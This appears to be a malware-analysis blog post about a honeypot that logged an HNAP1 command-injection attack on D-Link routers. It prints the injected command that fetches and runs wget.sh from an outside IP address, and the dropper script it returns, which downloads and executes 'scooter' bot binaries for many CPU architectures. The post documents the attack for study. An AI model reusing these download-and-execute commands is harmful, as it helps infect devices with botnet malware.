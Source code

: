 ```yaml
---
layout: post
title:  "Scooter bot"
date:   2022-10-02 18:25:33 +0100
category: malware
tags: malware reverse-engineering honey-pot ghidra
--- 
```

Running the honey pot again I have picked up some more malware attacks...

```
15:49:58.513 Handling POST to /HNAP1/ request from 79.110.62.188
>>>Headers: HoneyPotIp:8080 Mozila/5.0 gzip, deflate */* keep-alive "http://purenetworks.com/HNAP1/GetDeviceSettings/`cd && cd tmp && export PATH=$PATH:. && cd /tmp;wget http://45.95.55.214/a/wget.sh;chmod 777 wget.sh;sh wget.sh Dlink;rm -rf wget.sh`" 0 
>>>Body: 
15:49:58.514 completed response status 200
```
The request attempts to execute the following command `cd && cd tmp && export PATH=$PATH:. && cd /tmp;wget http://45.95.55.214/a/wget.sh;chmod 777 wget.sh;sh wget.sh Dlink;rm -rf wget.sh` This will download `wget.sh` and run it.

Running `wget http://45.95.55.214/a/wget.sh` we get the following response:
```
cd /tmp && wget http://45.95.55.214/scooter/bot.arm4 && curl -O http://45.95.55.214/scooter/bot.arm4 && chmod 777 bot.arm4 && ./bot.arm4 $1
cd /tmp && wget http://45.95.55.214/scooter/bot.arm7 && curl -O http://45.95.55.214/scooter/bot.arm7 && chmod 777 bot.arm7 && ./bot.arm7 $1
cd /tmp && wget http://45.95.55.214/scooter/bot.i686 && curl -O http://45.95.55.214/scooter/bot.i686 && chmod 777 bot.i686 && ./bot.i686 $1
cd /tmp && wget http://45.95.55.214/scooter/bot.mips64 && curl -O http://45.95.55.214/scooter/bot.mips64 && chmod 777 bot.mips64 && ./bot.mips64 $1 
cd /tmp && wget http://45.95.55.214/scooter/bot.ppc440 && curl -O http://45.95.55.214/scooter/bot.ppc440 && chmod 777 bot.ppc440 && ./bot.ppc440 $1 
cd /tmp && wget http://45.95.55.214/scooter/bot.x86_64 && curl -O http://45.95.55.214/scooter/bot.x86_64 && chmod 777 bot.x86_64 && ./bot.x86_64 $1
cd /tmp && wget http://45.95.55.214/scooter/bot.arm5 && curl -O http://45.95.55.214/scooter/bot.arm5 && chmod 777 bot.arm5 && ./bot.arm5 $1 
cd /tmp && wget http://45.95.55.214/scooter/bot.armv4eb && curl -O http://45.95.55.214/scooter/bot.armv4eb && chmod 777 bot.armv4eb && ./bot.armv4eb $1 
cd /tmp && wget http://45.95.55.214/scooter/bot.m68k && curl -O http://45.95.55.214/scooter/bot.m68k && chmod 777 bot.m68k && ./bot.m68k $1
cd /tmp && wget http://45.95.55.214/scooter/bot.mipsel && curl -O http://45.95.55.214/scooter/bot.mipsel && chmod 777 bot.mipsel && ./bot.mipsel $1
cd /tmp && wget http://45.95.55.214/scooter/bot.sh4 && curl -O http://45.95.55.214/scooter/bot.sh4 && chmod 777 bot.sh4 && ./bot.sh4 $1 
cd /tmp && wget http://45.95.55.214/scooter/bot.arm6 && curl -O http://45.95.55.214/scooter/bot.arm6 && chmod 777 bot.arm6 && ./bot.arm6 $1
cd /tmp && wget http://45.95.55.214/scooter/bot.armv4tl && curl -O http://45.95.55.214/scooter/bot.armv4tl && chmod 777 bot.armv4tl && ./bot.armv4tl $1 
cd /tmp && wget http://45.95.55.214/scooter/bot.mips && curl -O http://45.95.55.214/scooter/bot.mips && chmod 777 bot.mips && ./bot.mips $1 
cd /tmp && wget http://45.95.55.214/scooter/bot.powerpc && curl -O http://45.95.55.214/scooter/bot.powerpc && chmod 777 bot.powerpc && ./bot.powerpc $1 
cd /tmp && wget http://45.95.55.214/scooter/bot.sparc && curl -O http://45.95.55.214/scooter/bot.sparc && chmod 777 bot.sparc && ./bot.sparc
```
This scrpit dowloads several builds of the malware and attempts to execute it, each build appears to be compiled for different CPU architectures.

